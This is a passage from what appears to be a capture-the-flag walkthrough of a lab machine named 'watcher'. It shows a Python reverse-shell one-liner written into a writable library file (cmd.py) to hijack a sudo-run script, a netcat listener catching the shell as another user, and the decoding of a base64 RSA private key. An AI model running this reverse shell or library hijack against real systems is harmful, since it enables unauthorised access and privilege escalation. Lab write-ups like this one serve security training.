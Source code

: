 
We will be hijacking one of the libraries in order to get another reverse shell. The only library we have write permission to is **cmd.py**, so let's put a python script in the file:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
>Note : don't forget to change the ip adress in the script!!

The cmd.py file now looks like this:
```terminal
mat@watcher:~/scripts$ cat cmd.py                                                                                                                            
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
 os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);                                                                                                

def get_command(num):                                                                                                                                        
        if(num == "1"):                                                                                                                                      
                return "ls -lah"                                                                                                                             
        if(num == "2"):                                                                                                                                      
                return "id"                                                                                                                                  

        if(num == "3"):                                                                                                                                      
                return "cat /etc/passwd"                                                                                                                     
mat@watcher:~/scripts$  
```

Let's set up another listener for this and then run the script:

```terminal
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script 2
```
```terminal
$nc -lvnp 9000
listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.180.180] 38226
$ whoami
will
```
Great, we escalated to will now.

## Flag 7

After some enumeration, we found base64 encoded file located in **/opt** directory:
```terminal
will@watcher:/opt/backups$ ls
key.b64
will@watcher:/opt/backups$ base64 -d key.b64
-----BEGIN RSA PRIVATE KEY-----
RedactedAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
```